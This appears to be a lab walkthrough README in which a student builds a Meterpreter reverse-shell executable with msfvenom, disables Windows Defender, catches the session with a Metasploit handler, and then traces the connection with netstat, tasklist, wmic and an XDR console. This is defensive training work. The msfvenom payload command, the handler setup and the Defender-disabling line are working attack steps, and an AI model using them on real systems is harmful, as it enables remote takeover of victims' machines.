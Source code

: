 # WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

1. Logint to mrblue PC and open a Terminal as Administrator and select "Yes" at UAC prompt. In the default PowerShell window, run the following command to disable Defender. Remember, our goal here is not bypass endpoint protection.

```PS
Set-MpPreference -DisableRealtimeMonitoring $true
```

2. Check if Defender is really turned off with (should be False):

```PS
Get-MpComputerStatus | select RealTimeProtectionEnabled
```

3. Lofing ro Kali Linux command prompt and check IP address

```bash
ifconfig
```
Mark the IP address of the Kali Linux machine eth0 interface. 

Run the following command to create a simple backdoor.

```bash
sudo su -
```

```bash
msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe
```

```bash
ls -l /tmp/beliveme.exe
```

Copy the malware to the share folder accessible by the Victim machine

```bash
cp /tmp/beliveme.exe /mnt/c/temp
```

```bash
ls -l /mnt/c/temp/
```

Now, we need to start the handler on attacker (Kali) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux

![](attachments/warmup_04.png)

Become a root:

```bash
sudo su -
```

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`
![](attachments/warmup_05.png)

Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

```bash
cd \temp
```

`beliveme.exe`

You should have similar output:

![](attachments/warmup_06.png)

### step 3

Now that we have a backdoor connections, let's investigate it. We know what to look for..this time! :)
Have an administrator terminal session ready and execute the following command:
TIPP1: -b switch needs admin rights and it's very usefull. It shows the executable involved in creating each connections or listening port.

```cmd
netstat -naob
```
![](attachments/warmup_07.png)

TIPP2: You can check the help for netstat (or any other commands) cmd switches

```cmd
netstat /?
```
![](attachments/warmup_08.png)

**TIPP3:** List only the ESTABLISHED connections:
```cmd
netstat -naob | findstr "ESTABLISHED"
```

**TIPP4:** List only the LISTENING connections:
```cmd
netstat -naob | findstr "LISTENING"
```

If you have RDP (or similar) access you can use TCPView application from the SysInternals package

![](attachments/warmup_09.png)

If you look closer, you can find the connection (because we know what to look for) made by our supper evil "beliveme.exe" malware.

![](attachments/warmup_10.png)

List the network connections and look for fully qualified domains. We can get rid of them as very likely they are good ones.

```cmd
netstat -f
```

![](attachments/warmup_11.png)

We can see our connection to the system on port TCP/4444. Lets find the Process ID (PID).
The PID is 5496 (your number will be different!)

```cmd
netstat -naob
```

![](attachments/warmup_12.png)

Dig deeper. Use the "tasklist" command. We can see the loaded DLL's.

```cmd
tasklist /m /fi "pid eq 5496"
```

![](attachments/warmup_13.png)


Check "wmic" to see from where the file was launched. It was launched from the command line as there are no options.

```cmd
wmic process where processid=5496 get commandline
```

![](attachments/warmup_14.png)

We can also find the parent process ID.


```cmd
wmic process get name,parentprocessid,processid | find "5496"
```

![](attachments/warmup_15.png)

```cmd
wmic process get name,parentprocessid,processid | find "1256"
```

![](attachments/warmup_16.png)

### step 4

We can investigate the same with the opensource tools, like SecurityOnion and/or ElasticSearch


### step 5
You can investigate it with a commercial tools as well (e.g. Cisco XDR).
The XDR sees immediately the event and creates an incident.

![](attachments/warmup_30c.png)

Clicking on the incident, we get more details. Like, Vitim endpoint, Local IP, the IP the malware connected to, the file name and the hash of the malware

![](attachments/warmup_31c.png)


The malicious file was automatically sent for dynamic analysis (it's configurable)

![](attachments/warmup_32c.png)


Searching for the hash of the file (beliveme.exe) gives us more tech details. It show immediately , how many endpoints are affected in our organization.
Additionally, the behavior indicators describe, why the file was marked as malicious. 
- Metasploit Payload Detected 
- Artifact flagged as known trojan by Antivirus
- Possible backdoor behavior Detected
- Process uses private IP range for network traffic

![](attachments/warmup_33c.png)

As an analyst/investigator i can:
- Take a forensics snapshot of the memory
- Isolate the endpoint (or snapshot and isolate)
- Move to the Triage group (more logs, strict rules etc.)

![](attachments/warmup_34c.png)

Every stage of the Incident response can logged by the XDR:
- Identification with review, affected hosts, conformation
- Containment with Overview, assets, IPs, domains, URLs, hashes etc
- Eradication with vulnerability remediation, removing malicious content and system restore
- Recovery

![](attachments/warmup_35c.png)

It make sens to collect the netflow (NVZ flow) data at the process level. Not just the SRC/DST IPs and ports are visible, but muc more.
- which process initiated the flow?
- what is the process ID?
- what is the path of the process?
- what is the PID of the parent process?
- what is the parent process name?
- what is the hash of the process?
- How is logged in to the endpoint?

![](attachments/warmup_36c.png)

### step 5